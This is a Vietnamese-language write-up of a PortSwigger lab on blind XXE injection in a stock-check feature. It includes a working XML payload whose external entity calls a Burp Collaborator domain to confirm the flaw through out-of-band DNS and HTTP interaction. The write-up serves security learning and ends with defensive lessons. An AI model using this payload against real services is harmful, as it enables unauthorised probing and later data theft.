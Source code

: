 # Write-up: Blind XXE with out-of-band interaction

### Tổng quan
Khai thác lỗ hổng Blind XML External Entity (XXE) trong chức năng kiểm tra kho hàng (check stock), sử dụng external entity để kích hoạt tương tác out-of-band với Burp Collaborator, xác nhận lỗ hổng bằng DNS lookup và HTTP request, hoàn thành lab.

### Mục tiêu
- Inject XML external entity vào chức năng check stock để kích hoạt DNS lookup và HTTP request tới Burp Collaborator, xác nhận lỗ hổng Blind XXE.

### Công cụ sử dụng
- Burp Suite Pro 
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng check stock trên giao diện web với một sản phẩm bất kỳ
- Trong Burp Suite Proxy, bắt được yêu cầu:
    ![stock](./images/1_check-stock.png)
    - **Quan sát**: Yêu cầu gửi dữ liệu XML, gợi ý khả năng tồn tại lỗ hổng XXE do server xử lý XML, nhưng không hiển thị kết quả trong phản hồi (Blind XXE):

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /product/stock` tới Burp Repeater.
- Tạo domain trong Burp Collaborator 
- Thêm external entity để kích hoạt yêu cầu HTTP tới Collaborator:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo[ <!ENTITY xxe SYSTEM "http://qrlb9xn82v4w6fx7bgefru59n0trhh56.oastify.com">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>
    ```
    - **Phản hồi**: Không hiển thị kết quả trong response (Blind XXE).
    - Kiểm tra Burp Collaborator: Ghi nhận tương tác DNS lookup và HTTP request tới.
    ![oob](./images/2_OOB.png)

- Kiểm tra trạng thái lab:
    ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Blind XXE bằng external entities để kích hoạt tương tác out-of-band và xác nhận lỗ hổng qua Burp Collaborator.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities trong XML parser và hạn chế kết nối mạng ra ngoài để ngăn chặn Blind XXE.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection
- PortSwigger: Blind XXE vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng Blind XXE, sử dụng Burp Collaborator để phát hiện tương tác out-of-band, và hiểu cách bảo vệ hệ thống khỏi XXE. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*